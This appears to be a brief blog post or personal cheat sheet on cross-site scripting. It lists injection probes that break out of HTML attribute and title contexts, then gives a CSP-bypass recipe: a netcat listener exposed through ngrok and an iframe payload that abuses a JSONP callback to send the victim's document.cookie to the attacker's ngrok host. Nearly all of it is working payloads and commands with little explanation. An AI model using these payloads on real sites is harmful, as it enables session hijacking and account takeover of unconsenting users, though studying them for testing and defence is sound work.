 ```yaml
---
layout: post
title: "xss"
keywords: "xss, iframe, cookie"
---
```

#### Approach
Check the context (inspect element)

```
<u>xss</u>
<script>alert(1)</script>
xss"><script>alert(1)</script>
</title><script>alert(1)</script>
xss%27;+alert(1);//xss

```

#### Bypass CSP and steal cookie using iframe

```
# Listener
nc -klnvp 9000
ngrok http 9000

# XSS
<iframe src="http://localhost:1337/list?callback=window.parent.location.href%3D`http://4ea69d0ff8e3.ngrok.io?c=%24%7Bdocument.cookie%7D`;display"></iframe>
```
